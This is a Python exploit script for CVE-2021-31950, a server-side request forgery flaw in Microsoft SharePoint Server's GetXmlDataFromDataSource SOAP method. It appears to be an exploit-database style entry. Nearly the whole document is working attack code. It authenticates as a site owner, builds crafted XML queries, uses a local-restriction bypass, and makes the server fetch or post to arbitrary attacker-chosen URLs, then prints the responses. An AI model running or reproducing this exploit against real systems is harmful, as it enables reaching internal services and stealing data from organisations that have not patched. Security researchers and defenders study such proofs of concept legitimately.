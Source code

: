 SSRF
----

    # Exploit Title: Microsoft SharePoint Server 16.0.10372.20060 - 'GetXmlDataFromDataSource' Server-Side Request Forgery (SSRF)
    # Date: 09 Jun 2021
    # Exploit Author: Alex Birnberg
    # Software Link: https://www.microsoft.com/en-us/download/details.aspx?id=57462
    # Version: 16.0.10372.20060
    # Tested on: Windows Server 2019
    # CVE : CVE-2021-31950

    #!/usr/bin/env python3

    import html
    import random
    import string
    import xml.sax.saxutils
    import textwrap
    import requests
    import argparse
    import xml.etree.ElementTree as ET
    from requests_ntlm2 import HttpNtlmAuth
    from urllib.parse import urlencode, urlparse

    class Exploit:
      def __init__(self, args):
        o = urlparse(args.url)
        self.url = args.url
        self.service = o.path
        self.username = args.username
        self.password = args.password
        self.target = args.target
        self.headers = args.header
        self.method = args.request
        self.data = args.data
        self.content_type = args.content_type
        self.s = requests.Session()
        self.s.auth = HttpNtlmAuth(self.username, self.password)
        self.s.headers = {
          'User-Agent': 'Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36'
        }
        self.s.proxies = {
          'http': 'http://127.0.0.1:8080'
        }

      def trigger(self):
        headers = ''
        if self.headers:
          for header in self.headers:
            header = list(map(lambda x: x.strip(), header.split(':')))
            if len(header) != 2:
              continue
            headers += '<dataurl:Header name="{}">{}</dataurl:Header>'.format(header[0], header[1])
        method = ''
        bypass_local = ''
        if self.method and self.method.upper() == 'POST':
          method = 'HTTP Post'
        else:
          method = 'HTTP Get'
          bypass_local = '<dataurl:Arguments><dataurl:Argument Name="{0}">{0}</dataurl:Argument></dataurl:Arguments>'.format(''.join(random.choice(string.ascii_letters) for i in range(16)))
        content_type = ''
        if self.content_type and len(self.content_type):
          content_type = '<dataurl:ContentType>{}</dataurl:ContentType>'.format(self.content_type)
        data = ''
        if self.data and len(self.data):
          data = '<dataurl:PostData Encoding="Decode">{}</dataurl:PostData>'.format(html.escape(self.data).encode('ascii', 'xmlcharrefreplace').decode('utf-8'))
        query_xml = textwrap.dedent('''\
        <udc:DataSource xmlns:udc="http://schemas.microsoft.com/data/udc" xmlns:udcs="http://schemas.microsoft.com/data/udc/soap" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dsp="http://schemas.microsoft.com/sharepoint/dsp" xmlns:dataurl="http://schemas.microsoft.com/sharepoint/dsp/xmlurl">
          <udc:ConnectionInfo>
            <udcs:Location href="">XMLURLDataAdapter</udcs:Location>
            <soap:Header>
              <dsp:versions>
              </dsp:versions>
              <dsp:request method="query" />
            </soap:Header>
            <soap:Body>
              <dsp:queryRequest>
                <dsp:ptQuery>
                  <dataurl:Headers>
                    <dataurl:Url href="{}" Method="{}"/>
                    {}
                    {}
                    {}
                    {}
                  </dataurl:Headers>
                </dsp:ptQuery>
              </dsp:queryRequest>
            </soap:Body>
          </udc:ConnectionInfo>
        </udc:DataSource>'''.format(self.target, method, bypass_local, headers, data, content_type))
        query_xml = xml.sax.saxutils.escape(query_xml.replace('\r', '').replace('\n', ''))
        data = textwrap.dedent('''\
          <?xml version="1.0" encoding="utf-8"?>
          <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
            <soap:Body>
              <GetXmlDataFromDataSource ns="http://microsoft.com/sharepoint/webpartpages">
                <queryXml>{}</queryXml>
              </GetXmlDataFromDataSource>
            </soap:Body>
          </soap:Envelope>'''.format(query_xml))
        r = self.soap('webpartpages', 'http://microsoft.com/sharepoint/webpartpages/GetXmlDataFromDataSource', data)
        root = ET.fromstring(r.content)
        try:
          namespaces = {
            'soap': 'http://schemas.xmlsoap.org/soap/envelope/'
          }
          value = list(root.find('soap:Body', namespaces).iter())[2]
          if value.tag == 'faultcode':
            print('Error:', list(root.find('soap:Body', namespaces).iter())[3].text)
          else:
            print(value.text)
        except:
          print(r.content)
          pass

      def soap(self, service, action, data):
        headers = {
          'SOAPAction': '"{}"'.format(action),
          'Host': 'localhost',
          'Content-Type': 'text/xml; charset=utf-8',
        }
        return self.s.post('{}/_vti_bin/{}.asmx'.format(self.url, service), headers=headers, data=data)

    if __name__ == '__main__':
      parser = argparse.ArgumentParser()
      parser.add_argument('--url', help='Base URL', required=True, metavar='<url>')
      parser.add_argument('--username', help='Username of team site owner', required=True, metavar='<username>')
      parser.add_argument('--password', help='Password of team site owner', required=True, metavar='<password>')
      parser.add_argument('--target', help='Target URL to work with', required=True, metavar='<target>')
      parser.add_argument('-H', '--header', help='Pass custom header(s) to server', action='append', metavar='<header>')
      parser.add_argument('-X', '--request', help='Specify request command to use', metavar='<command>')
      parser.add_argument('-d', '--data', help='HTTP POST data', metavar='<data>')
      parser.add_argument('-c', '--content-type', help='Value for the "Content-Type" header', metavar='<type>')
      exploit = Exploit(parser.parse_args())
      exploit.trigger()